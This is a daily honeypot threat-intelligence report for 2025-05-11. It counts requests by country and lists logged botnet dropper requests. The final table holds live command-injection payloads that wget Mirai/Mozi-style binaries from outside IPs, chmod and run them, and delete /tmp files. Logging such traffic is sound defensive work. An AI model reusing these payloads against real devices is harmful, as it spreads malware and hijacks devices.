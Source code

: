 ```yaml
---
title: "Report: 2025-05-11 "
date: 2025-05-11
desciption: "Report: 2025-05-11" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-11 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 253 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1648 requests were recorded during the day, originating from 4 different countries, with a peak of 837 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| MD               | Israel             |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                       |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 196.251.72.142 | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/Aqua.x86;chmod+777+*;./Aqua.x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/Aqua.arm7;chmod+777+*;./Aqua.arm7 HTTP/1.1 |
| 178.72.77.183  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                     |
| 196.251.72.142 | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/jaws.sh;chmod+777+*;./jaws.sh HTTP/1.1                                                                                         |
| 59.182.81.255  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                         |
